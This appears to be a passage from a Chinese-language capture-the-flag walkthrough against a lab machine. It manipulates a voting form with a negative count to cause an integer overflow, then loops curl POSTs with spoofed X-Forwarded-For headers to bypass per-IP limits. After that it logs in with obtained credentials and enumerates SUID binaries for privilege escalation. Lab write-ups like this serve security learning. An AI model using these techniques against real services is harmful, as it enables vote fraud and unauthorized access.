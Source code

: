```

X-Remote-Addr: 192.168.21.11

Priority: u=0, i



vote=1&vote_count=10
```

票数设置1000，提升投票失败

<img width="557" height="145" alt="图片" src="https://github.com/user-attachments/assets/23502c8a-41c8-4d6a-8af9-a7f240fd1a71" />

修改为-1，造成了整数溢出

<img width="835" height="120" alt="图片" src="https://github.com/user-attachments/assets/42f1b506-0d79-416b-a60c-1829142f56d6" />

也可以使用命令行
for i in $(seq 1000); do ... done会进行1000次对curl -X POST http://192.168.21.11/vote/vote.php的post请求
-d 'vote=1&vote_count=1'为发送的post表单数据
-H "X-Forwarded-For: $i "来添加自定义 HTTP 头，$i 会被循环变量替换成 1～1000 的数字。

```
┌──(kali㉿kali)-[~]
└─$ for i in $(seq 1000);do curl -X POST http://192.168.21.11/vote/vote.php -d 'vote=1&vote_count=1' -H "X-Forwarded-For: $i ";done
```

得到了账号密码：pencek:d032fc2b8b，尝试ssh连接，失败，但是刚才端口扫描看到了9090端口是Cockpit web service 221 - 253，成功登录

```
pencek@Login:~$ id
uid=1000(pencek) gid=1000(pencek) groups=1000(pencek)
pencek@Login:~$ sudo -l
[sudo] password for pencek: 
Sorry, user pencek may not run sudo on Login.
pencek@Login:~$ find / -perm -u=s -type f -executable 2>/dev/null
/usr/sbin/exim4
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/ntfs-3g
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
